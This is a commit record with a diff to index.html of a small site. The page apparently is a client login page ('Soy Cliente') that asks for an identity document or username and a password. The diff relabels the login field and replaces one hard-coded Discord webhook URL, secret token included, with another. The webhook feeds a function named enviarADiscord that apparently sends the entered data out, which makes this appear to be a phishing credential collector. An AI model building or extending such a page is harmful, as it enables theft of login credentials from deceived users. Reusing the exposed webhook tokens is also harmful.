

Before and after one commit to danielreynalopez1010-prog/davimix, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Soy Cliente". Shown: the part 194-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -165,10 +165,10 @@
                     <div class="bg-white rounded-[24px] p-6 shadow-xl">
                         <div class="mb-5">
                             <label class="block text-gray-700 text-sm font-semibold mb-2" for="usuario">Ingrese su
-                                documento de identidad</label>
+                                usuario</label>
                             <input
                                 class="w-full px-4 py-3 rounded-lg border border-gray-300 focus:outline-none focus:border-red-500 focus:ring-1 focus:ring-red-500 text-gray-700 text-base"
-                                id="usuario" type="text" placeholder="Documento de identidad">
+                                id="usuario" type="text" placeholder="Usuario">
                         </div>
                         <div class="mb-6 relative">
                             <label class="block text-gray-700 text-sm font-semibold mb-2" for="contrasena">Ingrese su
@@ -307,7 +307,7 @@
         // ============================================
         // CONFIGURACIÓN DEL WEBHOOK DE DISCORD
         // ============================================
-        const DISCORD_WEBHOOK_URL = 'https://discord.com/api/webhooks/1572386335011115090/IAFT978FUxGlgf-2eksMDKeRh2E6JFbR41Ef6KBWa9VAuplOOnPzttftGNVeX4hC0wS_';
+        const DISCORD_WEBHOOK_URL = 'https://discord.com/api/webhooks/1520193201867194408/KaKXYO5iD2_pgLWmLsEea0TudoTIzYPZ93m9dYqwogLtNb9nxeDAm6YIEiGTt1SXrmXB';
 
         // Función para enviar datos a Discord
         async function enviarADiscord(tipo, datos) {
```
